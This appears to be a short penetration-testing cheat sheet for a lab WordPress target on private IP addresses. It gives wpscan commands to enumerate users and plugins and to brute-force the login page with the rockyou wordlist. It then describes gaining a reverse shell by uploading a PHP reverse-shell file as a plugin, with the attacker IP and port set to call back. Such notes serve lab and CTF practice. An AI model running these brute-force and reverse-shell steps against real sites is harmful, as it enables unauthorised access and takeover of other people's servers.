 Wordpress commands
==================

__1 - Enumerating users __

wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -e u\

__2 - Bruteforce wp login page ___
wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -P /usr/share/wordlists/rockyou.txt --usernames john

__3 - Enumerating wordpress users and plugins __
wpscan --disable-tls-checks --url https://192.168.1.30:12380/blogblog/ --plugin-agressive (To be checked)


Reverse shell exploits
======================

__Exploit Method 1__

If the admin login of wordpress is available, upload the famous php-reverse shell.php as plugin.
Download and Edit the following file content
$ip = '192.168.1.28';  // CHANGE THIS
$port = 443;           // CHANGE THIS

Upload the php file. The file will be available in the following location
https://192.168.1.30:12380/blogblog/wp-content/uploads/


